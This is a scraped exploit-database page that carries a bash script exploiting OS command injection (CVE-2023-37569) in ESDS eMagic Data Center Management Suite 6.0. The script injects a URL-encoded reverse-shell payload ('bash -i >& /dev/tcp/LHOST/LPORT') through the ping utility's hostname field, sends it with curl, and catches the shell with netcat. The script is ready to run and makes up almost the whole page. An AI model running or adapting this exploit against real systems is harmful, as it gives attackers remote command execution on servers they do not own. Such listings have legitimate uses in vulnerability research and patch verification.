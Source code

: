 ```yaml
---
title: Emagic Data Center Management Suite v6.0 - OS Command Injection exploit
url: https://sploitus.com/exploit?id=EDB-ID:51673&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-09
fetch_date: 2025-10-04T11:59:51.481213
---
```


# Emagic Data Center Management Suite v6.0 - OS Command Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Emagic Data Center Management Suite v6.0 - OS Command Injection CVE-2023-37569

2023-08-08 | CVSS 8.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51673
#!/bin/bash

# Exploit Title: Emagic Data Center Management Suite v6.0 - OS Command Injection
# Date: 03-08-2023
# Exploit Author: Shubham Pandey & thewhiteh4t
# Vendor Homepage: https://www.esds.co.in/enlight360
# Version: 6.0.0
# Tested on: Kali Linux
# CVE : CVE-2023-37569

URL=$1
LHOST=$2
LPORT=$3

echo "*****************************"
echo "*  ESDS eMagic 6.0.0 RCE    *"
echo "*  > CVE-2023-37569         *"
echo "*  > Shubham & thewhiteh4t  *"
echo "*****************************"

if [ $# -lt 3 ]; then
    echo """
USAGE :

./exploit.sh http://<IP> <LHOST> <LPORT>
./exploit.sh http://192.168.0.10 192.168.0.20 1337
"""
    exit 1
fi

url="$1/index.php/monitor/operations/utilities/"

echo "[+] URL   : $URL"
echo "[+] LHOST : $LHOST"
echo "[+] LPORT : $LPORT"
echo

payload="bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F$LHOST%2F$LPORT%200%3E%261%27"

post_data="utility=ping&operations=yes&hostname=%3B%20$payload&param_before=&param_after=&probe_id=1&rndval=1682490204846"

echo "[!] Triggering exploit..."

echo $url

(sleep 3; curl -s -X POST -d $post_data $url > /dev/null) &

echo "[+] Catching shell..."
nc -lvp 4444
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)